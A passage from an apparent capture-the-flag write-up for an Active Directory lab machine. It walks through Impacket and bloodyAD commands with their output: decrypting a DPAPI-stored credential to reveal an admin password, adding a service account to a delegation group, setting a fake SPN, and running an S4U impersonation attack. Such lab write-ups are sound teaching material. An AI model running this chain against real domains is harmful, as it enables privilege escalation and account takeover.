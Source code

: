 ```console
 # dpapi.py credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510d
f01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description :
Unknown     :
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```
We have `C.Neri_adm`!
# C.Neri_ADM
Looking at `Bloodhound` we can see that `C.NERI_ADM` has `GENERIC WRITE` and `ADD SELF` to `DELEGATEDADMINS`
![Bloodhound Dta - C.Neri account having Generic Write and Add self to Delegate Admins Group](/assets/img/img_vintage/Pasted%20image%2020250130191121.png)
We write `SVC_SQL` as a member of `DELEGATEDADMINS`:
```console
# bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" -u "C.NERI_ADM" -p "Uncr4ck4bl3P4ssW0rd0312" -k add groupMember "DELEGATEDADMINS" "SVC_SQL"
[+] SVC_SQL added to DELEGATEDADMINS
```
We change `SVC_SQL` to a fake `SPN` which we can then use for `Delegation to krbtgt`
```console
# bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" -k set object "SVC_SQL" servicePrincipalName -v "CIFS/w1ld"
[+] SVC_SQL's servicePrincipalName has been updated
```
Grabbing `tgt` as per usual:
```console
# getTGT.py -dc-ip "dc01.vintage.htb" "vintage.htb"/"svc_sql":"Zer0the0ne"
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in svc_sql.ccache
```
setting `KRB5CCACHENAME` env var:
```console
# export KRB5CCNAME=svc_sql.ccache
```
Finally attacking `L.BIANCHI_ADM` with `S4U` attack:
```console
# getST.py -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Impersonating L.BIANCHI_ADM
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in L.BIANCHI_ADM.ccache
```